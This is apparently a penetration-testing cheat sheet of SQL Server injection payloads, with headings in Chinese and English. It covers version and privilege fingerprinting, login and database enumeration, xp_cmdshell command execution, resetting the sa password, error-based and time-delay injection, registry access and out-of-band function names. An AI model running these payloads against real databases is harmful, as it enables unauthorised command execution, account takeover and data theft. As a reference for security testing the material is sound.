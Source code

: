 SQL Server Payload
========================================

常见Payload
----------------------------------------
- Version
    - ``SELECT @@version``
    - ``SELECT SERVERPROPERTY('Edition');``
    - ``SELECT SERVERPROPERTY('EngineEdition');``
- Comment 
    - ``SELECT 1 -- comment``
    - ``SELECT /*comment*/1``
- Space
    - ``0x01 - 0x20``
- 用户信息
    - ``SELECT user_name()``
    - ``SELECT system_user``
    - ``SELECT user``
    - ``SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID``
- 用户权限
    - ``select IS_SRVROLEMEMBER('sysadmin')``
    - ``select IS_SRVROLEMEMBER('db_owner')``
- List User
    - ``SELECT name FROM master..syslogins``
- 数据库信息
    - ``SELECT name FROM master..sysdatabases``
    - ``select concat_ws(table_schema,table_name,column_name) from information_schema.columns``
    - ``select quotename(name) from master..sysdatabases FOR XML PATH('')``
- 执行命令
    - ``EXEC xp_cmdshell 'net user'``
- Ascii
    - ``SELECT char(0x41)``
    - ``SELECT ascii('A')``
    - ``SELECT char(65)+char(66)`` => return ``AB``
- Delay
    - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
- Change Password
    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
- Trick
    - ``id=1 union:select password from:user``
- 文件读取
    - OpenRowset
- 当前查询语句
    - ``select text from sys.dm_exec_requests cross apply sys.dm_exec_sql_text(sql_handle)``
- hostname
    - 用于判断是否站库分离
    - ``select host_name()``
    - ``exec xp_getnetname``
- 服务器信息
    - ``exec xp_msver``
- 系统配置
    - ``select * from sys.configurations;``

注册表读写
----------------------------------------
- ``xp_regread``
    - ``exec xp_regread N'HKEY_LOCAL_MACHINE', N'SYSTEM\CurrentControlSet\Services\MSSEARCH'``
- ``xp_regwrite``
- ``xp_regdeletvalue``
- ``xp_regdeletkey``
- ``xp_regaddmultistring``

报错注入
----------------------------------------
- ``1=convert(int,(db_name()))``

常用函数
----------------------------------------
- SUSER_NAME()
- USER_NAME()
- PERMISSIONS()
- DB_NAME()
- FILE_NAME()
- TYPE_NAME()
- COL_NAME()

DNS OOB
----------------------------------------
- fn_xe_file_target_read_file
- fn_get_audit_file
- fn_trace_gettable

其他常用存储过程
----------------------------------------
- sp_execute_external_script
- sp_makewebtask
- sp_OACreate
- sp_OADestroy
- sp_OAGetErrorInfo
- sp_OAGetProperty
- sp_OAMethod
- sp_OASetProperty
- sp_OAStop
- xp_cmdshell
- xp_dirtree
- xp_enumerrorlogs
- xp_enumgroups
- xp_fixeddrives
- xp_getfiledetails
- xp_loginconfig

